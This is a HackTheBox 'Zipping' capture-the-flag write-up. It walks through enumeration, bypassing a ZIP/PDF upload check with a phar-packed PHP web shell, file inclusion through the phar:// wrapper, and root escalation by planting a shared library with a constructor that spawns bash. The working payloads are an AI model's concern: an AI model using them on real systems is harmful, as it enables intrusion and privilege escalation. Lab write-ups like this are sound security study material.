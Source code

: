 ```yaml
---
title: HTB-Zipping Writeup
date: 2024-01-25 19:40:00 +1000
categories: [HTB, Writeups]
tags: [ctf, htb, box, medium, linux] # TAG names should always be lowercase
image:
  path: /assets/img/ss/x2uv0Zg.png
---
```

# Zipping Writeup

25 January 2024 

#CTF #HTB #box #medium #linux

## Enumeration

### nmap

```bash
$ sudo nmap -sC -sV -T5 -oA nmap/zipping 10.10.11.229 
Nmap scan report for 10.10.11.229
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
|_  256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.72 seconds
```

### HTTP

We Have two interesting looking web pages `http://10.10.11.229/upload.php`
![img](/assets/img/ss/gfidzGR.png)

The description of this webpage states that it only accepts `ZIP` files containing `PDF`.

Next, there is a `/shop` section that lists various items. Upon clicking on them, a new URL is generated with `page` and `id` parameters.
![img](/assets/img/ss/F1G53bA.png)

![img](/assets/img/ss/uRUeeGl.png)


### File Upload

- Let's try uploading a few `ZIP` files containing `PDF` to gain a basic understanding of how it works.

```bash
touch TEST.pdf
zip pdf.zip TEST.pdf
```

![img](/assets/img/ss/QjJzXGe.png)

- We can see that it has been uploaded successfully at `/uploads/4eb158e645505532e43f3ee7cf29952a/TEST.pdf`.
- from the output we can tell that this is only checking for `.pdf`  file extension.

### File Inclusion

- The `page` parameter in the `/shop/index.php` endpoint might be vulnerable to file inclusion. This could potentially lead to a file inclusion vulnerability, allowing an attacker to include and execute arbitrary files on the server.
![img](/assets/img/ss/AqFwZyB.png)

- It seems like we successfully identified that the ".php" extension is appended to the "page" parameter, and it's likely using a mechanism like "require" or "include" for processing PHP files.

## Foothold

Let's create a file `phar.php`:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.php', '<?php system($_REQUEST["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```


- Executing this file with `PHP` will create an archive called `shell.phar`, which contains a file `shell.php` with the payload above. Then, we have to rename `shell.phar` to have a `.pdf` extension (remember that `/upload.php` only checks the extension inside the zip) and, finally, zip the rogue `PDF` into a legitimate zip archive.

```bash
php --define phar.readonly=0 phar.php
mv shell.phar apple.pdf
zip zipping.zip apple.pdf
```

Let's Upload this `zipping.zip` and copy the path.

![img](/assets/img/ss/noo3E63.png)


Now, by utilizing the `phar://` PHP wrapper, we can seamlessly access files within the `shell.pdf` archive and include `shell.php` for enhanced functionality.

![img](/assets/img/ss/0oPtsWe.png)

It Worked, Let's get a reverse shell:

![img](/assets/img/ss/8lZaFTW.png)

## Privesc

- Our user can run a command as root without the password:
```bash
rektsu@zipping:/var/www/html/shop$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
rektsu@zipping:/var/www/html/shop$
```

Let's copy the file to our VM to analyze it with Ghidra.

### Reverse Engineering

The `main()` function starts by asking the user a password:
```c
char user_input[44];
printf("Enter the password: ");
fgets(user_input, 30, stdin);

char *newline_ptr = strchr(user_input, '\n');
if (newline_ptr != NULL) {
	*newline_ptr = '\0';
}

if (!checkAuth(user_input)) {
	puts("Invalid password, please try again.");
	return 1;
}
```

The `checkAuth()` function is just a simple `strcmp()` with a `hardcoded` password:

```c
int checkAuth(char *str) {
	int res = strcmp(str, "St0ckM4nager");
	return res == 0;
}
```

```c
local_e8 = 0x2d17550c0c040967;
local_e0 = 0xe2b4b551c121f0a;
local_d8 = 0x908244a1d000705;
local_d0 = 0x4f19043c0b0f0602;
local_c8 = 0x151a;
local_f0 = 0x657a69616b6148;

XOR((long)&local_e8, 0x22, (long)&local_f0, 8);

local_28 = dlopen(&local_e8, 1);
```

`dlopen()` is a function used to load a shared library at runtime. The path to the library is "decrypted" with the `XOR()` function right before being passed to `dlopen()`.

We could reverse the XOR() function to get the original path

```bash
gef➤  b *main+0x124
Breakpoint 1 at 0x13de

gef➤  r
Starting program: /home/kali/Documents/CTF/Hack_the_box/Machines/Zipping/stock
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter the password: St0ckM4nager
[...]

gef➤  x/s $rdi
0x7fffffffdd20: "/home/rektsu/.config/libcounter.so"
```

### Exploitation

- As we can see, it is loading `/home/rektsu/.config/libcounter.so`, but it not there so we can make our own file there

- We can just create the shared library and use __attribute__((constructor)) to execute a function when the library gets loaded by `dlopen()`:

```c
#include <stdlib.h>

__attribute__((constructor))
void init() {
    system("bash");
}
```

compile this with `-shared` flag:

```bash
rektsu@zipping:/home/rektsu/.config$ gcc -shared exp.c -o libcounter.so
```

 After entering the password, we should get a root shell

```bash
rektsu@zipping:/home/rektsu/.config$ sudo stock
Enter the password: St0ckM4nager

root@zipping:/home/rektsu/.config# id
uid=0(root) gid=0(root) groups=0(root)
```

